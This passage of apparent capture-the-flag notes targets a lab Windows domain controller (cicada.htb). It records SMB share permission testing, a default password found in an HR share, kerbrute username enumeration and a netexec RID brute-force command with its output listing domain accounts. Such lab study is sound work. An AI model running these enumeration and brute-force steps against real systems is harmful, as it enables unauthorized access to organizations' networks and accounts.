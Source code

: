 HR:
  comment: ''
  type: Disk
IPC$:
  comment: Remote IPC
  type: IPC
NETLOGON:
  comment: Logon server share
  type: Disk
SYSVOL:
  comment: Logon server share
  type: Disk
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share DEV
[+] Mapping: OK, Listing: DENIED
[*] Testing share HR
[+] Mapping: OK, Listing: OK
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share NETLOGON
[+] Mapping: OK, Listing: DENIED
[*] Testing share SYSVOL
[+] Mapping: OK, Listing: DENIED




found in SMB share port 445 with random user login:

Your default password is: Cicada$M6Corpb*@Lp#nZp!8


kerbrute:
2024/10/23 17:08:55 >  [+] VALID USERNAME:	administrator@cicada.htb

2024/10/23 17:10:15 >  Using KDC(s):
2024/10/23 17:10:15 >  	10.10.11.35:88

2024/10/23 17:10:18 >  [+] VALID USERNAME:	guest@cicada.htb
2024/10/23 17:10:24 >  [+] VALID USERNAME:	administrator@cicada.htb
2024/10/23 17:11:23 >  [+] VALID USERNAME:	Guest@cicada.htb
2024/10/23 17:11:23 >  [+] VALID USERNAME:	Administrator@cicada.htb
2024/10/23 17:15:50 >  [+] VALID USERNAME:	GUEST@cicada.htb



└> sudo nxc smb 10.10.11.35 -u 'mzxnhqhu' -p '' --rid-brute 4000
Using virtualenv: /usr/share/netexec/virtualenvs/netexec-PWU1S8Zj-py3.12
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\mzxnhqhu: (Guest)
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)